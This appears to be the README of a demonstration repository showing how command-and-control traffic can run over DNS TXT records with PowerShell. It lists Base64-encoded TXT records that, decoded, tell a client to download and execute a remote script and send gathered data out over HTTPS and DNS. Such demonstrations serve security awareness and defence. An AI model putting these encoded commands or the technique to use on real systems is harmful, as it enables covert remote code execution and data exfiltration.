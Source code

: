 # DNS C2 Demo

This set of scripts will help you to demostrate how easy it is to run C2-traffic thru DNS

The script ***demo-create-txt-records.ps1*** creates Base64 encoded records that can be used as TXT-entries

Something like this:

```
;QUESTION
c2demo.ronnkvist.nu. IN TXT
;ANSWER
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzszO1NldDtjMnNlcnZlci5zb21laGF4eG9yLnh5eg=="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzsxO0dldDtodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vcmlyb2ZhbC9ETlMtQzItRGVtby9tYWluL2RlbW8tcmVtb3RlLXNjcmlwdC5wczE="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzsyO1BTO2RlbW8tcmVtb3RlLXNjcmlwdC5wczE="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzs0O2h0dHBzO2RlbW8tcHVzaC1vdXQudHh0"
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzs1O0ROUztkZW1vLXB1c2gtb3V0LnR4dA=="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzswO1dyaXRlO1RpbWUgdG8gZG8gc29tZSBDMi1zdHVmZiA7KQ=="
```

Then you have the script ***demo-c2-client.ps1*** that you can run on a Windows client with Powershell and access to a DNS.

The script will use TXT-records to find and download another script, execute it and show how a simple DNS-query would send out the information gathered.

### Example output from Demo C2 Client
![Example Output](./demo-c2-client-output.png?raw=true)


### Example of incoming DNS-queries from DNSChef

[DNSChef](https://github.com/iphelix/dnschef) can be used for a lot of fun DNS-stuff but in this example just to showcase the DNS-queries going out.

You can change the DNS-settings on your client or just use the parameter ***$demoC2DnsServer*** and point it to your DNSChef

```
$demoC2DnsServer = "192.168.112.128"
```

![Example Output](./demo-c2-client-dnschef.png?raw=true)

